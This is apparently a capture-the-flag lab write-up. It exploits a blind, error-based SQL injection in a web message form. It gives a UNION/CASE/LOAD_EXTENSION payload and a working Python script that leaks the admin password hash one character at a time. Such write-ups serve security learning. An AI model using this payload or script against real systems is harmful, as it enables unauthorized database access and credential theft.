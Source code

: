 When we enter `yes') ;`, it seems to hang and do nothing, which is weird. Let's try:

```text
yes'); SELECT * FROM users--
```

And when we do, we get this error message:

```text
SELECTs to the left and right of UNION do not have the same number of result columns
```

Which confirms that we have an SQL injection vulnerability, however we don't have a visual one, but rather a blind SQL injection vulnerability. We can use error based SQL injection to leak the admin hash.

### Exploiting the site

#### SQL Injection

Our payload will look something like this:

```text
yes') UNION SELECT CASE SUBSTR(secret,{index},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--
```

Here's what each part does:

* `SUBSTR(secret,{index},1)`: What this does is read the items in `secret` column at a certain `index`, which contains the password hash. First parameter is the column to read, second parameter is the index to read at, and third parameter is how many characters to read.
* `WHEN '{char}'`: This checks whether the character is equal to the `char` we provide. This is what we brute force.
* `THEN LOAD_EXTENSION('b')`: If the previous check is correct, it will raise an error to tell us so, as this is an incorrect use of the function `LOAD_EXTENSION()`
* `ELSE 'yes' END`: If the check is incorrect, it won't raise an error and just continue as normal pretty much. `END` terminates the `CASE` statement
* `FROM users--`: Says which database to read from, in our case the `users`

Using this script, we can leak the admin hash:

```python
from requests import Session
from string import printable

session = Session()

guest = "84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec"
admin = ""
chars = "0123456789abcdef"

i = 0

for i in range(0, len(guest)):
    for char in chars:
        message = f"yes') UNION SELECT CASE SUBSTR(secret,{i + 1},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--"

        data = {'message': message}

        r = session.post('http://10.10.10.195/submitmessage', data=data)

        if r.text == "not authorized":    # if an error was thrown
            if char != guest[i]:    # check it wasn't the guest hash that we read
                admin += char
                print(f"char found: {char}")
    if len(admin) != (i + 1):    # checks if we read the same char twice (guest[i] == admin[i])
        char = guest[i]
```